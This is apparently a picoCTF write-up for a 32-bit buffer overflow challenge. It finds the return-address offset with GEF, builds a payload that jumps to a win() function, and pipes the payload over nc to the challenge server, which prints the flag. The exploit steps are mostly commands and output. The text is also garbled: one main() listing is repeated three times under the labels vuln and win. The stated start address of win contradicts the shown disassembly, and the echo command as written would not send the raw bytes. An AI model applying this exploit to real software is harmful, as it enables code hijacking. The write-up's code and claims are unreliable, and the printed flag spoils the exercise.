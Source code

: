 # Writeup: buffer overflow 1

# Overview

This challenge involves exploiting a simple buffer overflow to change the return address.

## Analysis

### Code Overview

- The `main` function prompts user to input a string:

```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

- The `vuln` function receives a string using `gets` function:

```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

- The `win` function output the flag:

```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

### Vulnerabilities

1. The `gets` function does not check bounds, leading to a buffer overflow vulnerability.

## Exploitation Strategy

Since the program does not call the `win` function directly, we need to change the return address of the  `vuln` function to the address of the `win` function.

1. Determine the offset of the buffer overflow.

2. Perform a buffer overflow to overwrite the return address with the address of the `win` the function.

## Exploitation Steps

1. Determine the offset of the buffer:

- Run the program using GDB:

```terminal
$ gdb vuln
```

- Create a string using `pattern create` command:

```terminal
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'
gef➤  run
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

- A segmentation fault occur. Observe the value of `$eip` which is instruction pointer:

```terminal
$eip   : 0x6161616c ("laaa"?)
```

- Determine the offset of the buffer using `pattern offset` command:

```terminal
gef➤  pattern offset l
[+] Searching for '6c'/'6c' with period=4
[+] Found at offset 44 (little-endian search) likely
```

- The offset is 44 bytes.

2. Craft the payload using `Python`:

- Determine the address of the `win` function:

```terminal
gef➤  disas win
Dump of assembler code for function win:
   0x080491f6 <+0>:     endbr32
   0x080491fa <+4>:     push   ebp
```

- The `win` function starts at the address `0x080491fa`.

- Craft the payload:

```terminal
$ python
>>> from pwn import *
>>> print ('A'*44)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>>> p32(0x080491fa)
b'\xfa\x91\x04\x08'
```

3. Perform buffer overflow:

```terminal
$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xfa\x91\x04\x08' | nc saturn.picoctf.net 55068
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491fa
picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}
```

## Conclusion

This challenge demonstrates how to exploit a buffer overflow vulnerability to overwrite the return address and redirect execution to a specific function, in this case, the `win` function, to retrieve the flag.

